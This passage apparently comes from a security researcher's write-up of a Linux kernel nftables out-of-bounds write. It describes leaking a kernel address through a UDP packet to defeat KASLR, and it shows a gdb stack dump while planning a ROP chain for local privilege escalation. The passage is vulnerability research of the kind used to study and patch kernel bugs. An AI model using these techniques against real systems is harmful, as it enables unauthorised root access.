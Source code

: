 Those expressions make a rule that is added to the output chain. 
For the sake of reducing noise, I also added an expression of type `nft_cmp_expr` at the beginning of the rule to check the destination port before performing the other expressions. That would make sure we are not writing to some other UDP packet. 

After we have set up the rule the only thing left is to spin up a UDP listener and send a UDP packet with an 8-byte payload - the address is going to be written over the 8-byte payload. Then we receive the packet and read the address from it.

Now that we have defeated `KASLR` it is time we move towards our goal - gaining kernel-space code execution and achieving Local Privilege Escalation.

### Road to Code Execution <a name="ceroad"></a>
Now that we have figured out how to leak the kernel address we need to figure out how to achieve Arbitrary Code Execution.

When we talked about primitives we established that `nft_payload` is the best expression for OOB write as we can write up to `0xff` bytes - 32 eight-byte words.

Ideally, we want to be able to write at least 20-something words on the stack without crashing. In reality, this is a bit more difficult than it seems.

#### Output hook + UDP packet <a name="outputudp"></a>
Let us look more closely at the stack layout when using an output chain and a UDP packet. We found a `.text` address at a nice location there so maybe if it is a saved return address we could inject an ROP chain at that location.

```
gdb-peda$ x/40gx ($rsp+0x50+0x308)
0xffffc90000227cb8:     0x0000000000000000      0x0000000000000000
0xffffc90000227cc8:     0x0000000000000000      0x000000000100007f
0xffffc90000227cd8:     0x0000000000000000      0x00000000ffff0000
0xffffc90000227ce8:     0x0000000000000000      0x0000000100000001
0xffffc90000227cf8:     0x0011000000000000      0x0000000000000001
0xffffc90000227d08:     0x0000000000000000      0x0000000000000000
0xffffc90000227d18:     0x0100007f0100007f      0xffff8880699c55c3
0xffffc90000227d28:     0x0000000000000000      0x0000000000000000
0xffffc90000227d38:     0x000000100000ffff      0x0000000000000000
0xffffc90000227d48:     0x00008800ffff0000      0x0000000000000000
0xffffc90000227d58:     0x0000ee4700000000      0x0000000000000000
0xffffc90000227d68:     0xffff8880052d0480      0xffff8880052d0508
0xffffc90000227d78:     0x0000000000000008      0xffff8880052d0480
0xffffc90000227d88:     0x0000000000000004      0x0000000000000000
0xffffc90000227d98:     0xffffffff819bfc63      0xffff88800e233c00
0xffffc90000227da8:     0x3175125abbd91100      0xffff88800e233c00
0xffffc90000227db8:     0xffffc90000227df8      0xffff88800e233c00
0xffffc90000227dc8:     0x0000000000000010      0x0000000000000004
0xffffc90000227dd8:     0x0000000000000000      0xffffc90000227e28
0xffffc90000227de8:     0xffffffff819b7ab7      0xffffffff819b7ab7
```

Looking at the stack right after the address we leaked we see that at location `0xffffc90000227da8` there is an obvious stack canary.
